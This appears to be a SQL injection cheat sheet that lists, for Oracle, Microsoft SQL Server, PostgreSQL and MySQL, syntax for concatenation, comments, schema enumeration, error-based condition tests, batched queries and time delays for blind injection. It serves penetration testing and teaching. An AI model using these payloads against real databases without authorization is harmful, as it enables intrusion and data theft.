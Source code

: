 Different database types often have different syntaxes.

# String concatenation
String concatenation is the process of combining multiple strings to make a single string. It is useful for extracting multiple columns in one column slot.
- Oracle: `'abc'||'xyz'`
- Microsoft: `'abc'+'xyz'`
- PostgreSQL: `'abc'||'xyz'`
- MySQL: `'abc' 'xyz'` or `CONCAT('abc','xyz'`

# Substrings
Getting a substring means extracting a smaller portion of a string. It can be useful for letter-by-letter examination. The following substrings extract the value `de` from `abcdef`.
- Oracle: `SUBSTR('abcdef', 4, 2)`
- Microsoft: `SUBSTRING('abcdef', 4, 2)`
- PostgreSQL: `SUBSTR('abcdef', 4, 2)` or `SUBSTRING('abcdef', 4, 2)`
- MySQL: `SUBSTRING('abcdef', 4, 2)`

# Comments
Comments can be used to ignore the remainder of a query.
- Oracle: `--comment`
- Microsoft: `--comment` or `/*comment*/`
- PostgreSQL: `--comment` or `/*comment*/`
- MySQL: `-- comment`, `#comment`, or `/*comment*/`

# Getting the database version
- Oracle: `SELECT banner FROM v$version` or `SELECT version FROM v$instance`
- Microsoft: `SELECT @@version`
- PostgreSQL: `SELECT version()`
- MySQL: `SELECT @@version`

# Getting table names
- Oracle: `SELECT * FROM all_tables`
- Microsoft: `SELECT * FROM information_schema.tables`
- PostgreSQL: `SELECT * FROM information_schema.tables`
- MySQL: `SELECT * FROM information_schema.tables`

# Getting column names
- Oracle: `SELECT * FROM all_tab_columns WHERE table_name = '<table name>'`
- Microsoft: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`
- PostgreSQL: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`
- MySQL: `SELECT * FROM information_schema.columns WHERE table_name = '<table name>'`

# Testing conditions
Testing conditions can be used to see if something is true, such as if a certain table exists. There are many ways to do this, and these are just one example.
- Oracle: `SELECT CASE WHEN (<condition>) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- Microsoft: `SELECT CASE WHEN (<condition>) THEN 1.0 ELSE NULL END`
- PostgreSQL: `1 = (SELECT CASE WHEN (condition) THEN CAST(1/0 AS INTEGER) ELSE NULL END)`
- MySQL: `SELECT IF(condition, (SELECT table_name FROM information_schema.tables),'a')`

# Batched queries
A way to run multiple queries in one command line.
- Oracle: Not supported
- Microsoft: `Query 1; Query 2`
- PostgreSQL: `Query 1; Query 2`
- MySQL: `Query 1; Query 2`

# Time delays
Time delays are useful for blind SQL injection. Here are some ways to cause 10 second time delays:
- Oracle: `dbms_pipe.receive_message(('a'),10)`
- Microsoft: `WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT pg_sleep(10)`
- MySQL: `SELECT SLEEP(10)`

# Conditional time delays
Used for checking conditions in blind SQL injection.
- Oracle: `SELECT CASE WHEN (<condition>) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft: `IF (<condition>) WAITFOR DELAY '0:0:10'`
- PostgreSQL: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL: `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`
